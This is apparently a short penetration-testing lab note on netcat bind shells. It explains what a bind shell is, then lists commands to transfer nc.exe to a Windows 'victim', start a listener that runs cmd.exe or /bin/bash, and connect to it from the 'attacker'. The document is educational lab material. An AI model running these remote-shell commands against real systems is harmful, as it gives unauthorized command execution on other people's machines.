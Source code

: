 Read netcat first to better understand
#### Bind shell
- A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system,consequently allowing for execution of commands on the target system
- A Netcat listener can be setup to execute a specific executable like cmd.exe or /bin/bash when a client connects to the listener.

#### Lab
Transfering nc.exe file from attaker(kali) to windows(victim)
- python -m SimpleHTTPServer 80 [start a server in kali ]
- Browse the kali Ip(attacker_ip) in victim browser.
- Download the file
  
##### When attacker machine is kali:
- nc.exe -nvlp 1234 -e cmd.exe [ run this command in windows victim machine,-e cmd.exe file is executed when it will connected ]
- Back into attacker machine
- nc -nv victim_ip 1234 [this will give cmd shell  ]
##### When attacke machine is windows
- nc -nvlp 1234 -c /bin/bash [run this in kali victim machine ]
- nc.exe -nv victim_ip 1234 [this will give us bash shell ]

####Note 
- nc.exe file is found /usr/share/windows-resources/binaries this directories
